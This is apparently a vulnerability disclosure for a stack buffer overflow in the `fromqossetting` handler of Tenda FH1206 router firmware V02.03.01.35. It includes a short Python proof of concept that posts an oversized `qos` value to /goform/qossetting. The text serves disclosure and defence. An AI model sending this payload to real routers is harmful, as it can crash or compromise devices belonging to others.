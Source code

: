 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `qos` parameter from a POST request. The statement `strcpy(v8, src);` leads to a buffer overflow. The user-supplied `qos` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-01 222017.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/qossetting"
payload = b"a"*1000

data = {"qos": payload, "op":"delete"}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)